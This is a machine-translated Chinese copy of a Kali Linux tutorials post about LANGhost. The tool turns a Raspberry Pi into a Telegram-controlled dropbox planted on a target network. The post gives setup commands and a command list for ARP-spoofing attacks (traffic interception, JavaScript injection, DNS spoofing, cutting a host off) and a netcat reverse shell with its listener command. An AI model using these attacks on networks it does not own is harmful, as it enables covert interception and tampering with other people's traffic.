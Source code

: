 # LANGhost:一个可以通过电报控制的 LAN Dropbox 聊天机器人

> 原文：<https://kalilinuxtutorials.com/langhost/>

[![LANGhost : A LAN Dropbox Chatbot Controllable Via Telegram](img/1da9a2f195e71ff8f86b43263a265041.png "LANGhost : A LAN Dropbox Chatbot Controllable Via Telegram")](https://1.bp.blogspot.com/-wmkIIi8_9R0/XOfc2nLjUUI/AAAAAAAAAig/uxLRrA4czUwQf2KdTAlgIHgEqlfSPoZfgCLcBGAs/s1600/lanGhost%25281%2529.png)

LANGhost 是为**Raspberry Pis**(**Raspbian**/**Kali 为 RPi** )设计的。在其他/desktop 发行版上运行它可能会导致问题，并且可能无法正常工作。

你需要在 SD 卡上有一个**树莓酱**和**新鲜的 Raspbian/Kali** ，因为你不希望其他东西在后台运行。

启动 Pi，获得 SSH sell 或连接显示器和键盘，并输入以下命令:

**也可阅读-[flash sploit:基于 ATtiny85 的 HID 攻击的利用框架](https://kalilinuxtutorials.com/flashsploit/)**

**$ sudo apt 更新& & sudo apt 安装 python3 python3-pip
$ git 克隆 https://github.com/xdavidhu/lanGhost
$ CD lanGhost
$ sudo。/setup.py**

运行设置脚本时，请**阅读**问题/消息！

**第 1/4 步–setup . py**

[+]请输入连接/将要连接到目标 LAN 的网络接口的名称。在大多数系统上，默认有线接口是“eth0”，默认无线接口是“wlan0”，但您可以在不同的终端中使用“ifconfig”命令检查它。

**第 2/4 步–setup . py**

[+]请通过命令“/newbot”在电报上发送消息@BotFather 来创建电报 API 密钥。

在这之后，@BotFather 会要求你为你的 bot 选择一个名字。这可以是你想要的任何东西。

最后，@BotFather 会问你要你的机器人的用户名。您必须在此选择一个以“bot”结尾的唯一用户名。比如:xdavidbot。记下这个用户名，因为稍后您将不得不搜索它来找到您的 bot，lanGhost 将在它上面运行。

将您的用户名 choise 发送到@BotFather 后，您将收到您的 API 密钥。

![](img/df13648abe1f202c9a58299c2328beff.png)![](img/a94d48ef4e838d501815ccdf72e6b561.png)

**第 3/4 步–setup . py**

[+]现在 lanGhost 只允许你访问，你需要验证你自己。

将下面的验证码发送给刚刚创建的 BOT。只需搜索你的 bot 的@username(你发给@BotFather 的)就能找到。

[+]验证码发送:* * * * * * *

![](img/2b5c97ca845b42e8eda1df82716457d3.png)

**步骤 4/4–setup . py**

[+]您希望 lanGhost 在引导时启动吗？如果您将此设备用作 dropbox，则此选项是必需的，因为当您将此设备放入网络时，您将没有机会远程启动 lanGhost！(自动启动通过添加新的 cron '@reboot '条目来工作)

如果您已经准备好安装，只需重新启动 Pi，lanGhost 就会立即启动！

![](img/aca09a35a100b16405c6c19684036f23.png)

**用途**

**警告:**不建议在大于/24 的网络上使用 lanGhost**，因为扫描时间太长。**

 **lanGhost 是**不安静**。任何监控流量的人都可以看到 ARP 数据包！

将其放入网络:

如果您在`step 4/4 (autostart)`选择了`yes`，Pi 将完全设置为下降。lanGhost 应该在启动时启动，并通过电报向您发送一条消息，文本为:`lanGhost started! 👻`。

请确保先在您的实验室中试用，并测试 lanGhost 是否会对您的消息做出响应！

如果一切就绪，只需将以太网电缆插入 Pi 并通过 micro USB 连接电源，就可以将它连接到目标网络了！

(lanGhost 也可以通过 WiFi 工作，但你需要先设置`wpa_supplicant`自动连接网络)

**可用命令:**

/Scan–扫描局域网
/scanip[TARGET-ip]–扫描特定的 IP 地址。
/kill[TARGET-IP]–停止目标的网络连接。
/mitm[TARGET-IP]–从目标捕获 HTTP/DNS 流量。
/Replace img[TARGET-IP]–替换目标请求的 HTTP 图像。
/Inject JS[TARGET-IP][JS-FILE-URL]–将 JavaScript 注入目标请求的 HTTP 页面。
/spooft dns[TARGET-IP][DOMAIN][FAKE-IP]–欺骗目标的 DNS 记录。
/attacks–查看当前正在运行的攻击。
/Stop[ATTACK-ID]–停止当前正在运行的攻击。
/Restart–重新启动 lanGhost。
/reverse sh[TARGET-IP][PORT]–创建一个 netcat 反向 shell 到目标。
/help–显示帮助菜单。
/乒乓。

### 攻击系统:

您可以使用以下命令之一发起攻击:`**/kill, /mitm, /replaceimg, /injectjs, /spoofdns**`

在你运行了一个或多个攻击之后，你可以使用`**/attack**`命令来获得一个包含`**ATTACK-ID**` **的**的列表。

要停止攻击，请键入`**/stop [ATTACK-ID]**`。

**反壳:**

**警告:** `**/reversesh**`只做一个不加密的 netcat TCP 连接，所有流量都可以监控！仅用于紧急修复或在必要时建立加密反向连接。

`**/reversesh**`命令用于在 Pi 上获得一个反向外壳，当它不能从外部访问时。

要使用`**/reversesh**`命令，您需要有一个监听 shell 的服务器。

在服务器上启动监听器的 Netcat 命令:

**$ nc -l 0.0.0.0【端口】**

电报命令:

**/reversesh[您的监听服务器的 IP][端口]**

**攻击:**

*   `**/kill**`–停止目标的互联网连接。
*   `**/mitm**`–捕获来自目标的 HTTP 和 DNS 流量，并通过文本消息发送。
*   `**/replaceimg**`–将目标的 HTTP 图像替换为发送给机器人的图片。
*   `**/injectjs**`–将 JavaScript 注入目标的每个 HTTP HTML 响应中。您需要在服务器上托管 JS 文件，并将 URL 作为参数给出。
*   `**/spoofdns**`–欺骗目标的 DNS 响应。

所有攻击都使用 **ARP 欺骗**！

**扫描:**

*   `**/scan**`–扫描本地网络并使主机恢复在线。使用`nmap -sn`扫描来发现主机。
*   `**/scanip**`–扫描 IP 地址中开放的端口和其他信息。使用`nmap -sS`扫描。

**通知:**

每次新设备连接/离开网络时，您都会收到一条消息。

**免责声明**

我不对你用这个程序做的任何事情负责，所以请只把它用在好的和教育目的上。

[**Download**](https://github.com/xdavidhu/lanGhost)**
